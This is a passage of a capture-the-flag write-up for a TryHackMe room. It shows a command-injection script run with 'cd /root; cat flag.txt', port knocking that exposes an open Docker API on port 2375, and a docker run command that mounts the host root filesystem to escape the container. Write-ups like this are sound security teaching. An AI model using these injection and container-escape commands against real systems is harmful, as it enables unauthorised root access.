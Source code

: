 ```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat flag.txt"
               You found the root flag, or did you?

THM{0cb**************************876}`
```

### The Great Escape

*You thought you had root.  But the root on a docker container isn't all that helpful.  Find the secret flag.*

Unfortunately, there is no hint for this one.  Great.  Looking back at the output from *dev-note.txt*, in the previous section, it looks like we can use port knocking on ports 42, 1337, 10420, 6969, and 63000 to check for a docker tcp port.

```
$ curl 10.10.148.224:<port> -m 1
```

I checked this worked with `nmap`, but no port opened.  I then used the same port knocking technique with `netcat` and it opened port 2375.  

I had never used docker before so I did some research into the different commands I could use.  I found I could list files similarly to a normal terminal.

I didn't really know how to proceed at this point, so I decided to take a break and come back to it the next day.  I watched some other docker-related CTF tutorials and found that you can mount an image file using `docker run`.  I first had a look to see if there were any image files available.

```
$ DOCKER_HOST=tcp://10.10.148.224:2375 docker image ls
REPOSITORY                                    TAG       IMAGE ID       CREATED        SIZE
exif-api-dev                                  latest    4084cb55e1c7   4 hours ago    214MB
exif-api                                      latest    923c5821b907   5 hours ago    163MB
frontend                                      latest    577f9da1362e   5 hours ago    138MB
endlessh                                      latest    7bde5182dc5e   24 hours ago   5.67MB
nginx                                         latest    ae2feff98a0c   3 weeks ago    133MB
debian                                        10-slim   4a9cd57610d6   3 weeks ago    69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   4 weeks ago    103MB
alpine                                        3.9       78a2ce922f86   8 months ago   5.55MB
```

Then using alpine, I mounted the image onto the `mnt/host` directory within the docker container.  I then grabbed an interactive session with `sh`:

```
$ DOCKER_HOST=tcp://$TARGET_IP:2375 docker run -it -v /:/mnt/host alpine:3.9 /bin/sh
```

I navigated to this directory and had a look around.  I found there was a `root` directory which contained the final flag...

```
$ ls -la /root
total 24
drwx------    3 root     root          4096 Jan  6 22:37 .
drwxr-xr-x   22 root     root          4096 Jan  6 16:44 ..
lrwxrwxrwx    1 root     root             9 Jan  6 17:22 .bash_history -> /dev/null
-rw-r-----    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root          4096 Jan  6 22:35 .local
-rw-r-----    1 root     root           148 Aug 17  2015 .profile
-rw-------    1 root     root            74 Jan  6 22:37 flag.txt
$ cat /root/flag.txt
Congrats, you found the real flag!

THM{c62**************************724}
```
